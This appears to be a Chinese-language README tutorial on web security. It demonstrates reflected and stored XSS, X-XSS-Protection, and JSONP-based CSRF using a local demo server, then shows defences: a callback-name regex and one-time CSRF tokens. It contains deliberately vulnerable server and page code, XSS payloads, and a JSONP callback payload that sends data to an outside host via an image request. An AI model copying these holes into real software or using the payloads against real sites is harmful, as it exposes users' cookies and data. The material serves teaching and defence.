









# web-safe

## 安全和身份

### 对传输中的数据进行加密

在服务器上使用 https

#### 内容安全策略

内容安全政策或 CSP 提供一个丰富的指令集，可以对允许页面的加载资源和资源加载位置进行精密的控制。



### XSS 攻击

通常指通过“HTML 注入”篡改了网页，插入了恶意的脚本，从而在用户浏览网页时。控制用户浏览器的一种方法.
浏览器平时已经可以防御一些了，x-xss-protuction 的默认值是 1。

- 反射型 XSS

  > 诱导用户点击某一个链接，达到攻击的目的。

- 存储型 XSS
  > 将用户输入的 XSS“存储”在服务器端。（用户提交到页面，存到数据库，之后再从数据库里面读取出来）

举个 🌰：

> cd demo

> npm install -g nodemon

> npm start

以下的例子都可以在 demo 里面查看。并并附有相关的代码片段。链接为：[XSS](<http://localhost:3000/xss.html?href=javascript%3Aalert('反射型的XSS')>)

```js
     // http://localhost:3000/xss.html?href=javascript%3Aalert('反射型的XSS') //反射型的XSS
    case "/xss.html":
      ctx.type = "html";
      let img_src = `https://omg.baidu.com/img.png" onerror="alert('存储型XSS')`; // 存储型的XSS
      ctx.body = require("fs")
        .readFileSync("./xss.html")
        .toString()
        .replace("{{img_src}}", img_src);
      break;

```

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>xss</title>
  </head>
  <body>
    
    <script>
      var href = (location.search.match(/href=([\w\W]+)/i) || [])[1];
      var $a = document.createElement("a");
      $a.setAttribute("href", decodeURIComponent(href));
      $a.innerText = "反射型XSS出现啦";
      document.body.appendChild($a);
    </script>
  </body>
</html>
```

> 当我再页面上点击 `反射型XSS出现啦` 就会触发 url 上的 href，弹出反射型的 XSS。不信你可以打开 demo 试试看～～～

#### X-XSS-Protection

- 当检测到跨脚本攻击的时候，浏览器就会停止响应

  > X-XSS-Protection:0 (禁止 XSS 过滤。)

  > X-XSS-Protection:1 (启用 XSS 过滤。（浏览器的默认选项）)

  > X-XSS-Protection:1;mode=block (启用 XSS 过滤。 如果检测到攻击，浏览器将不会清除页面，而是阻止页面加载.)

  > X-XSS-Protection:1; report=<reporting-URI> (Chromium only) (启用 XSS 过滤。 如果检测到跨站脚本攻击，浏览器将清除页面并使用 CSP report-uri 指令的功能发送违规报告。)

举个 🌰

打开的链接：[http://localhost:3000/search?keyword=2333](http://localhost:3000/search?keyword=2333)

当我将 keyword 里面的东西换成`<script>alert(1)<%2Fscript>`的时候，浏览器就会提示我浏览器检测到不安全的代码。



接下来我将 xss 的过滤关掉：ctx.set('x-xss-protection', '0')



我们再来观察一波他的代码：其实就是将标签放在内容里面：


```js
    case "/search":
      ctx.type = "html";
      // ctx.set('x-xss-protection', '0') //禁止xss过滤
      // ctx.set('x-xss-protection', '1; mode=block')
      ctx.body = `您搜索的关键词是: '${ctx.query.keyword}'`;
    break;
```

钓鱼网站：页面跟别的网站一摸一样。域名不一样。

#### jsonp 的安全问题,CSRF

辣么，什么是 jsonp：

- jsonp 是利用`<script>`标签的 src 属性实现的跨域，只支持 get 方法。

- jsonp 将前端的方法作为参数传到服务端，再由服务端注入返回，实现服务端向客户端的通信。

而，csrf 又是什么呢？

- 攻击者盗用了你的身份，以你的名义发送恶意请求，比如 cookie 啊等等

我是一个小 🌰：

例子链接：[http://localhost:3000/jsonp.html?callback=console.log(document.cookie);void]http://localhost:3000/jsonp.html?callback=console.log(document.cookie);void

浏览器的 callback 之后就会打印出 cookie。

```html
<body>
  <script>
    var callback = (location.search.match(/callback=([\\w\\W]+)/i) || [])[1];
    var $script = document.createElement("script");
    $script.src = "/api/jsonp?callback=" + callback;
    document.body.appendChild($script);
  </script>
</body>
```

在我们用浏览器打开 csrf.html 的文件的时候，又会发生什么意外呢？

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>csrf</title>
    <script>
      window.onerror = function() {
        console.error(arguments);
      };
    </script>
  </head>
  <body>
    <h1>hello world</h1>
    <script src="http://localhost:3000/api/jsonp?callback=(new%20Image).src%3D%22http%3A%2F%2Fkaris.com%3A3000%2Freport%3Fdata%3D%22%2BJSON.stringify"></script>
  </body>
</html>
```

代码里面加了一个标签叫

```html
<script src="http://localhost:3000/api/jsonp?callback=(new%20Image).src%3D%22http%3A%2F%2Fkaris.com%3A3000%2Freport%3Fdata%3D%22%2BJSON.stringify"></script>
```

在加载这个标签的时候，就会请求 jsonp 这个函数


可是这个 callback 又是一个 img 的 src，接下来他也会去请求 src 里面的东西。
所以最后的结果是：他偷偷的去上报啦～～～



（哇，我一片真心对你，你居然给我整这么多幺蛾子～～

要怎么避免这种情况的发生呢？

回头看一下代码：

```js
    case "/api/jsonp":
      let csrf_close = true;
      if (csrf_close || csrf.verify(ctx.query.token)) {
        ctx.type = "js";
        ctx.body = `${ctx.query.callback}(${Math.random()})`;
      } else {
        ctx.status = 403;
        ctx.body = "token error";
      }
      break;
```

那我可以在调用的时候可以判断以下 callback 的东西，添加一个正则

修改以下代码,加多一个正则的校验

```js
    case "/api/jsonp":
      let csrf_close = true;
      if (csrf_close || csrf.verify(ctx.query.token)) {
        ctx.type = "js";
        if (/^[a-z]\w*$/i.test(ctx.query.callback)) {
          ctx.body = `${ctx.query.callback}(${Math.random()})`;
        } else {
          ctx.status = 403;
          ctx.body = "哼，不给你调用哦23333～";
        }
      } else {
        ctx.status = 403;
        ctx.body = "token error";
      }
      break;
```

让我们看看请求的结果：



那么接下来我们继续修改这个 demo：
修改 api/jsonp 的内容，将 csrf_close 设置成 false
那么他就会有一个验证 token 的过程

```js
    case "/api/jsonp":
      let csrf_close = false;
      if (csrf_close || csrf.verify(ctx.query.token)) {
        ctx.type = "js";
        ctx.body = `${ctx.query.callback}(${Math.random()})`;
      } else {
        ctx.status = 403;
        ctx.body = "token error";
      }
      break;
```

第一次打开的时候：

请求是通过的

请求是：http://localhost:3000/api/jsonp?token=442fd6f6fc03f1117976e9ef108938f9&callback=console.log(document.cookie);void


当我在浏览器打开新开一个窗口打开下面的链接（跟上面请求一致的链接，即 token 是一样的）
http://localhost:3000/api/jsonp?token=442fd6f6fc03f1117976e9ef108938f9&callback=console.log(document.cookie);void

这个时候会提示 token error


那是因为在 csrf 里面设置了：只要验证过后，以后的就会删掉这个 token

csrf.js

```js
const crypto = require("crypto");

const max_age = 5 * 60 * 1000;
const token_cache = {};

function md5(str) {
  return crypto
    .createHash("md5")
    .update(str.toString())
    .digest("hex");
}

module.exports = function(secret) {
  return {
    create() {
      let token = md5(`${secret}-${Math.random()}-${Date.now()}`);
      token_cache[token] = 1;
      setTimeout(() => {
        delete token_cache[token];
      }, max_age);
      return token;
    },
    verify(token) {
      if (token_cache[token]) {
        delete token_cache[token];
        return true;
      }
      return false;
    }
  };
};
```

#### httphijack 和 X-Frame-Options

攻击场景：骗 star，骗投票

### 参考资料：

[chockcoco JavaScript 防 http 劫持与 XSS](http://www.cnblogs.com/coco1s/p/5777260.html)

[safe](https://developers.google.com/web/fundamentals/security/?hl=zh-cn)

[X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)

[fe-star-showcase-15](https://github.com/FE-star/showcase15)
[fe-star](https://github.com/FE-star/2018.6/issues/23)
